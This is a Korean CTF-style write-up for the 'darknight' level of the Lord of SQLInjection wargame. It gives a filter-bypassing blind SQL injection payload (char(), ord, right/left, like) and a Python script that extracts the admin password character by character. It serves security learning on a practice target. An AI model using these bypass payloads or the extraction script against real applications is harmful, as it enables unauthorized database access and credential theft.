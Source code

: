 ```yaml
---
layout: single
title: "[Lord of SQLInjection] darknight write-up"
date: 2025-04-24 00:41 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (darknight)

### ✏️ 풀이

이번 문제에서는 no와 pw 파리미터 2개를 받아온다. no와 pw 파라미터에 대해서 탐지하는 문자는 아래와 같고, 이번 문제도 마찬가지로 Blind SQLi로 admin의 pw 값을 알아내야 한다.

```
no -> prob _ . () ' substr ascii =
pw -> '
```

![image-20250424004239708](/images/2025-04-24-los-darknight/image-20250424004239708.png)

<br>

일단 pw 파라미터는 넣지 않고 and or 연산자 우선순위를 이용해 like 연산자에 싱글쿼터를 사용할 수 없으므로 char() 안에 아스키 코드 숫자를 넣어 admin을 표현할 수 있다. 아래처럼 일단 Hello admin을 테스트로 띄워봤다. 

![image-20250424005301349](/images/2025-04-24-los-darknight/image-20250424005301349.png)

<br>

이제 ascii와 substr을 우회해야 한다. substr을 우회하기 위해서 right(left(pw,1),1) 을 통해 substr과 동일하게 수행할 수 있다. 또한 ascii 대신 ord 함수를 사용해 사용할 수 있다. 이는 멀티바이셋 언어만 주의해서 사용하면 되기 때문에 패스워드에 한글이 들어가지 않으니 ord를 사용하여 아래처럼 첫 글자가 a인지 테스트해볼 수 있다.

```
1 or id like char(97,100,109,105,110) and ord(right(left(pw,1),1)) like 65-- -
```

![image-20250424011512569](/images/2025-04-24-los-darknight/image-20250424011512569.png)

<br>

아래 코드를 이용해서 문제를 풀 수 있고, 코드를 설명하면 먼저 세션을 쿠키에 설정하고, 해당 페이로드를 no 파라미터에 넣어 get 요청을 날린 후, Hello admin 문자열이 있는지 검사한다. 그럼 chr 함수를 이용해 이 아스키코드 숫자를 문자로 변경 후에 password를 차례로 넣어 password를 추출하는 코드이다.

```python
import requests

password = ""
url = "https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php"
cookie = {"PHPSESSID": "3gkm2054bi501f689hd20e39cp"}

for i in range(1, 100):
    found = False
    for j in range(32, 127):
        param = {
            "no": f"1 or id like char(97,100,109,105,110) and ord(right(left(pw,{i}),1)) like {j}-- -"
        }
        r = requests.get(url=url, cookies=cookie, params=param)
        if "Hello admin" in r.text:
            found = True
            password += chr(j)
            print(f"[+] password {i}번째 자리는 {chr(j)}입니다.")
            break
    if not found:
        print("[-] End")
        break

print(password)

```

<br>

pw 파라미터에 password 값을 넣으면 solve!

![image-20250424012146150](/images/2025-04-24-los-darknight/image-20250424012146150.png)